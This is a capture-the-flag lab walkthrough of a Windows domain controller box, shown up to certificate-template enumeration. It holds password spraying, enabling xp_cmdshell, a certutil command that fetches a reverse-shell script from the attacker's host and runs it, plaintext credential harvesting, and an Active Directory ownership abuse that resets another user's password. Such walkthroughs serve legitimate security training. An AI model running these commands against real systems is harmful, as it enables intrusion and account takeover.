

<br />


<br />

OS -> Windows.

Difficulty -> Easy.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running a typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.51 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-14 11:40 CEST
Nmap scan report for 10.10.11.51
Host is up (0.041s latency).
Not shown: 65509 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-14 09:40:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-14T09:41:44+00:00; -31s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2025-06-13T19:21:54
|_Not valid after:  2026-06-13T19:21:54
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-14T09:41:44+00:00; -31s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2025-06-13T19:21:54
|_Not valid after:  2026-06-13T19:21:54
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-06-13T11:32:52
|_Not valid after:  2055-06-13T11:32:52
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2025-06-14T09:41:44+00:00; -31s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-14T09:41:44+00:00; -31s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2025-06-13T19:21:54
|_Not valid after:  2026-06-13T19:21:54
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-14T09:41:44+00:00; -31s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2025-06-13T19:21:54
|_Not valid after:  2026-06-13T19:21:54
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
49719/tcp open  msrpc         Microsoft Windows RPC
49740/tcp open  msrpc         Microsoft Windows RPC
49801/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -31s, deviation: 0s, median: -31s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-14T09:41:05
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.35 seconds
```

<br />

Relevant open ports:

- `Port 53`   -> dns

- `Port 88`   -> kerberos

- `Port 135`  -> rpc

- `Port 139`  -> netbios

- `Port 389`  -> ldap

- `Port 445`  -> smb

- `Port 464`  -> kpasswd (kerberos password change)

- `Port 593`  -> rpc over http

- `Port 636`  -> ldaps

- `Port 1433` -> mssql

- `Port 5985` -> winrm

<br />

The domain `sequel.htb` and the DC `DC01.sequel.htb` appear across multiple services and ports, so we add them to our `/etc/hosts` file:

<br />

```bash
10.10.11.51 sequel.htb dc01.sequel.htb
```

<br />

## Initial Credentials:

<br />

As in real-world pentests, this box provides us with some initial credentials to begin enumeration:

<br />



<br />

# SMB Enumeration:

<br />

To start enumerating this protocol, we will list some system information:

<br />

```bash
❯ netexec smb 10.10.11.51
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
```

<br />

The host is running `Windows Server 2019`, build 17763.

We can also confirm that the domain is `sequel.htb`.

Using initial credentials, we are able to authenticate to `SMB` and enumerate shared resources:

<br />

```bash
❯ netexec smb 10.10.11.51 -u "rose" -p "KxEPkKe6R8su" --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ      
```

<br />

The `Accounting Department` and `Users` shares are uncommon, so it's worth taking a closer look at them.

<br />

### Users:

<br />

Let's start with the `Users` share:

<br />

```bash
❯ smbclient //sequel.htb/Users -U rose
Password for [WORKGROUP\rose]:
ls
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Jun  9 15:42:11 2024
  ..                                 DR        0  Sun Jun  9 15:42:11 2024
  Default                           DHR        0  Sun Jun  9 13:17:29 2024
  desktop.ini                       AHS      174  Sat Sep 15 09:16:48 2018

		6367231 blocks of size 4096. 899954 blocks available
```

<br />

The share contains a `Default` folder, which reveals a typical Windows user profile structure.

<br />

```bash
smb: \> ls
  .                                  DR        0  Sun Jun  9 15:42:11 2024
  ..                                 DR        0  Sun Jun  9 15:42:11 2024
  Default                           DHR        0  Sun Jun  9 13:17:29 2024
smb: \Default\> ls
  .                                 DHR        0  Sun Jun  9 13:17:29 2024
  ..                                DHR        0  Sun Jun  9 13:17:29 2024
  AppData                            DH        0  Sat Sep 15 09:19:00 2018
  Desktop                            DR        0  Sat Sep 15 09:19:00 2018
  Documents                          DR        0  Sun Jun  9 03:29:57 2024
  Downloads                          DR        0  Sat Sep 15 09:19:00 2018
  Favorites                          DR        0  Sat Sep 15 09:19:00 2018
  Links                              DR        0  Sat Sep 15 09:19:00 2018
  Music                              DR        0  Sat Sep 15 09:19:00 2018
  NTUSER.DAT                          A   262144  Sun Jun  9 03:29:57 2024
  NTUSER.DAT.LOG1                   AHS    57344  Sat Sep 15 08:09:26 2018
  NTUSER.DAT.LOG2                   AHS        0  Sat Sep 15 08:09:26 2018
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TM.blf    AHS    65536  Sun Jun  9 03:29:57 2024
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Sun Jun  9 03:29:57 2024
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Sun Jun  9 03:29:57 2024
  Pictures                           DR        0  Sat Sep 15 09:19:00 2018
  Saved Games                         D        0  Sat Sep 15 09:19:00 2018
  Videos                             DR        0  Sat Sep 15 09:19:00 2018

		6367231 blocks of size 4096. 899954 blocks available
```

<br />

There's nothing relevant here.

<br />

### Accounting Department:

<br />

The `Accounting Department` share contains two `Excel workbooks`.

<br />

```bash
❯ smbclient "//sequel.htb/Accounting Department" -U rose
Password for [WORKGROUP\rose]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 12:52:21 2024
  ..                                  D        0  Sun Jun  9 12:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 12:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 12:52:07 2024

		6367231 blocks of size 4096. 899936 blocks available
```

<br />

We proceed to download both files for further inspection:

<br />

```bash
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (59,4 KiloBytes/sec) (average 59,4 KiloBytes/sec)
getting file \accounts.xlsx of size 6780 as accounts.xlsx (40,1 KiloBytes/sec) (average 49,8 KiloBytes/sec)
```

<br />

Both `.xlsx` files appear to be `Zip` archives:

<br />

```bash
❯ file *
accounting_2024.xlsx: Zip archive data, made by v4.5, extract using at least v2.0, last modified, last modified Sun, Jan 01 1980 00:00:00, uncompressed size 1284, method=deflate
accounts.xlsx:        Zip archive data, made by v2.0, extract using at least v2.0, last modified, last modified Sun, Jun 09 2024 10:47:44, uncompressed size 681, method=deflate
```

<br />

## Credentials Extraction from Excel File:

<br />

Unzipping `accounts.xlsx`, we find a `sharedStrings.xml` file that contains credentials in plaintext:

<br />

```bash
❯ cat sharedStrings.xml
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: sharedStrings.xml
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   2   │ <sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">
       │ Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preser
       │ ve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:spac
       │ e="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t><
       │ /si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malon
       │ e</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space
       │ ="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst>
```

<br />

To validate credentials, we save all this information into a `users` and a `passwords` file.

Then, we can run the following command using `netexec`:

<br />

```bash
❯ netexec smb 10.10.11.51 -u users -p passwords --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [-] sequel.htb\martin:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\martin:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\martin:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\martin:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE
```

<br />

There is a match for the user `oscar`, but no relevant SMB shares are available for this account.

We can run the same spray attack against `mssql`:

<br />

```bash
❯ netexec mssql sequel.htb -u users -p passwords --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [-] DC01\sa:0fwz7Q4mSpurIt99 (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\martin:0fwz7Q4mSpurIt99 (Login failed for user 'martin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\angela:0fwz7Q4mSpurIt99 (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\oscar:0fwz7Q4mSpurIt99 (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\kevin:0fwz7Q4mSpurIt99 (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\sa:86LxLBMgEWaKUnBG (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\martin:86LxLBMgEWaKUnBG (Login failed for user 'martin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\angela:86LxLBMgEWaKUnBG (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\oscar:86LxLBMgEWaKUnBG (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\kevin:86LxLBMgEWaKUnBG (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\sa:Md9Wlq1E5bZnVDVo (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\martin:Md9Wlq1E5bZnVDVo (Login failed for user 'martin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\angela:Md9Wlq1E5bZnVDVo (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\oscar:Md9Wlq1E5bZnVDVo (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\kevin:Md9Wlq1E5bZnVDVo (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

<br />

We have valid credentials for the `sa` account! (SQL Server Administrator)

We can log into the `MSSQL` server using `mssqlclient.py`:

<br />

```bash
❯ mssqlclient.py sequel.htb/sa@10.10.11.51
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

<br />

## xp_cmdshell:

<br />

At this point, we can take advantage of a powerful `MSSQL` feature: `xp_cmdshell`

It allows us to execute arbitrary system commands within `SQL Server`.

However, if we try to run a command:

<br />

```bash
SQL (sa  dbo@master)> xp_cmdshell whoami
[-] ERROR(DC01\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

<br />

Error! The `xp_cmdshell` utility is disabled.

But since we're authenticated as `sa`, we can easily enable it:

<br />

```bash
SQL (sa  dbo@master)> enable_xp_cmdshell
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

<br />

And run a command:

<br />

```bash
SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL
```

<br />

Commands run under the context of the `sql_svc` user.

<br />

### Uploading a PowerShell Reverse Shell:

<br />

Now that we can run commands on the system, it's time to gain an interactive shell.

One straightforward approach is to upload a `reverse.ps1` payload:

<br />

```bash
SQL (sa  dbo@master)> xp_cmdshell "certutil -urlcache -split -f http://10.10.14.12/reverse.ps1 C:\Users\sql_svc\Desktop\reverse.ps1"
output                                                
---------------------------------------------------   
****  Online  ****                                    

  0000  ...                                           

  026f                                                

CertUtil: -URLCache command completed successfully.   

NULL      
```

<br />

Executing it with `PowerShell`:

<br />

```bash
SQL (sa  dbo@master)> xp_cmdshell "powershell -File C:\Users\sql_svc\Desktop\reverse.ps1"
```

<br />

Finally, we check our listener:

<br />

```bash
❯ sudo rlwrap nc -nlvp 443
[sudo] contraseña para theredp4nther: 
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.51] 49482
whoami
sequel\sql_svc
PS C:\Windows\system32> 
```

<br />

# Privilege Escalation: sql_svc -> ryan

<br />

There is nothing more than our `reverse.ps1` in the `sql_svc` home directory:

<br />

```bash
PS C:\Users\sql_svc\Desktop> dir


    Directory: C:\Users\sql_svc\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        6/14/2025  10:10 AM            623 reverse.ps1   
```

<br />

And it doesn't have any useful privileges:

<br />

```bash
PS C:\Users\sql_svc\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

<br />

While enumerating the system, we find an unusual folder in the system root, `SQL2019`:

<br />

```bash
PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        11/5/2022  12:03 PM                PerfLogs                                                              
d-r---         1/4/2025   7:11 AM                Program Files                                                         
d-----         6/9/2024   8:37 AM                Program Files (x86)                                                   
d-----         6/8/2024   3:07 PM                SQL2019                                                               
d-r---         6/9/2024   6:42 AM                Users                                                                 
d-----         1/4/2025   8:10 AM                Windows                                                               

```

<br />

Inside, there is another folder called `ExpressAdv_ENU`:

<br />

```bash
PS C:\SQL2019> dir


    Directory: C:\SQL2019


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         1/3/2025   7:29 AM                ExpressAdv_ENU
```

<br />

This folder contains several files and subdirectories:

<br />

```bash
PS C:\SQL2019\ExpressAdv_ENU> dir


    Directory: C:\SQL2019\ExpressAdv_ENU


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         6/8/2024   3:07 PM                1033_ENU_LP                                                           
d-----         6/8/2024   3:07 PM                redist                                                                
d-----         6/8/2024   3:07 PM                resources                                                             
d-----         6/8/2024   3:07 PM                x64                                                                   
-a----        9/24/2019  10:03 PM             45 AUTORUN.INF                                                           
-a----        9/24/2019  10:03 PM            788 MEDIAINFO.XML                                                         
-a----         6/8/2024   3:07 PM             16 PackageId.dat                                                         
-a----        9/24/2019  10:03 PM         142944 SETUP.EXE                                                             
-a----        9/24/2019  10:03 PM            486 SETUP.EXE.CONFIG                                                      
-a----         6/8/2024   3:07 PM            717 sql-Configuration.INI                                                 
-a----        9/24/2019  10:03 PM         249448 SQLSETUPBOOTSTRAPPER.DLL
```

<br />

### sql-Configuration.INI:

<br />

In the `sql-Configuration.INI` file, we find hardcoded credentials:

<br />

```bash
PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

<br />

In the `C:\Users` directory we can see another user called `ryan`.

The credentials are valid for this user:

<br />

```bash
❯ netexec winrm sequel.htb -u "ryan" -p "WqSZAF6CysDQbGb3"
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
WINRM       10.10.11.51     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
```

<br />

We use `evil-winrm` to gain an interactive shell as this user:

<br />

```bash
❯ evil-winrm -i sequel.htb -u "ryan" -p "WqSZAF6CysDQbGb3"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
sequel\ryan
```

<br />

And we get the `user.txt` flag:

<br />

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> type user.txt
516de9ed6f058aa7a03aa22195xxxxxx
```

<br />

# Privilege Escalation: ryan -> ca_svc

<br />

With valid system credentials, we can use tools like `BloodHound` to explore possible privilege escalation paths to `domain compromise`.

I documented the installation process in [this other writeup](https://theredp4nther.github.io/writeups/2024/HTB/Forest.html#bloodhound-setup). If you're unfamiliar with the setup, check it out and then return here.

Next, we proceed to enumerate Active Directory privileges using `BloodHound`.

We detect that `ryan` has `WriteOwner` permissions over the `ca_svc` user:

<br />


<br />

What means this?

This means that as `ryan`, we can change the password of `ca_svc` user.

To do it, we only need to run two commands with `bloodyAD` from our local machine, one to add `ryan` as a owner of the `ca_svc` user, and a second one to set the `writeAll` permission and change the password of `ca_svc` with a powershell command from the victime machine.

Let's do it:


<br />

```bash
❯ bloodyAD --dc-ip 10.10.11.51 --host sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
[!] S-1-5-21-548670397-972687484-3496335370-1114 is already the owner, no modification will be made
❯ bloodyAD --dc-ip 10.10.11.51 --host sequel.htb -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
[+] ryan has now GenericAll on ca_svc
```

<br />

Then, we can run the powershell command:

<br />


```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> Set-ADAccountPassword -Identity ca_svc -NewPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) -Reset
```

<br />

With this `netexec` one-liner, we can verify that the changes were correctly applied:

<br />

```bash
❯ netexec smb sequel.htb -u 'ca_svc' -p 'Password123!'
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ca_svc:Password123!
```

<br />

This user, is in the `Cert Publishers` group:

<br />

```bash
*Evil-WinRM* PS C:\Users\ryan\Desktop> net user ca_svc
User name                    ca_svc
Full Name                    Certification Authority
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/14/2025 11:32:29 AM
Password expires             Never
Password changeable          6/15/2025 11:32:29 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/9/2024 10:14:42 AM

Logon hours allowed          All

Local Group Memberships      *Cert Publishers
Global Group memberships     *Domain Users
The command completed successfully.
```

<br />

So it will should be able to run `certipy`.

If wen run it, there is a vulnerable template:

<br />

```bash
❯ certipy find -vulnerable -u ca_svc -p 'Password123!' -dc-ip 10.10.11.51 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
